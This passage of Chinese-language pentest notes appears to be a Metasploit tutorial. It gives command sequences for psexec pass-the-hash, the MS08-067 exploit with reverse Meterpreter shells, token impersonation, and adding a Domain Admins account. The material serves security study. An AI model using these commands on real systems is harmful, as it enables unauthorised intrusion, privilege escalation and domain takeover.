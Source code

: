 `e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c` 即为密码哈希

```
search psexec
use exploit/windows/smb/psexec
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.57.133
set LPORT 443
set RHOST 192.168.57.131
show options
set SMBPass e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c
exploit
shell
```

通过 `psexec` 我们无需耗时破解密码即可提权。

### 事件日志

https://www.offensive-security.com/metasploit-unleashed/event-log-management/


### Incognito模块 令牌假冒 ❖

`incognito` 可以使用Cookies等tokens来假装某个用户而不需要在意密码/哈希，tokens一般分为两种：delegate/impersonate，前者用于互动式登录（如远程桌面），后者用于被动式登录（如访问一个网络存储，文件服务器是重点关注对象）

以 `ms08_067_netapi` 为例：

```
use exploit/windows/smb/ms08_067_netapi
set RHOST 10.211.55.140
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.211.55.162
set LANG english
show targets
set TARGET 8
exploit
```

```
use incognito
help
```

首先检查系统上是否有存储可见的tokens：
```
meterpreter > list_tokens -u
```
Administrator无法查看所有的tokens，但是可以迁移到SYSTEM进程从而获取到SYSTEM权限
获取到Administrator的tokens后，使用：
```shell
meterpreter > impersonate_token SNEAKS.IN\\Administrator
# 注意两个斜杠来转义单斜杠

# 添加用户
meterpreter > add_user USERNAME PASSWD -h <host>
meterpreter > add_group_user "Domain Admins" USERNAME -h <host>
# -h 后为域控制器的ip地址，一般为目标机局域网地址

meterpreter > getuid
meterpreter > shell
```
